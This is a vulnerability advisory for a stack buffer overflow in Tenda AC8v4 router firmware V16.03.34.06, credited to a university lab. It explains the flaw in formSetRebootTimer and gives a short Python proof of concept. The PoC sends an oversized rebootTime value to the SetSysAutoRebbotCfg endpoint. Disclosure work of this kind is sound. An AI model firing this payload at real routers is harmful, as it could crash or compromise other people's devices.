




## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-3518.html

## Affected version

AC8v4 V16.03.34.06
url = "http://192.168.1.100:80/goform/SetSysAutoRebbotCfg

## Vulnerability details

The Tenda AC8v4 V16.03.34.06 firmware has a stack overflow vulnerability in the `formSetRebootTimer` function. The `__s1_00` variable receives the `rebootTime` parameter from a POST request and is later assigned to the function `FUN_004a8838(__s1_00);`. However, since the user can control the input of `rebootTime`, the statement `iVar1 = sscanf(param_1,"%d:%d",&local_18,&local_14);` can cause a buffer overflow. The user-provided  `rebootTime` can exceed the capacity of the `local_18, local_14` array, triggering this security vulnerability.





## POC

```python
import requests

url = "http://192.168.1.100:80/goform/SetSysAutoRebbotCfg"

bindnum_value = "aaaaa"
list_value = "00:7777777777Y7kkkXkkkk77777777777777777778aa" 

data = {
    "aotEn": bindnum_value,
    "rebootTime": list_value
}

response = requests.post(url, data=data)

print(f"Status Code: {response.status_code}")
print(f"Response Text: {response.text}")
```




# Discoverer
The vulnerability was discovered by Professor Wei Zhou's team (IoTS&P Lab) from the School of Cyber Science and Engineering at Huazhong University of Science and Technology.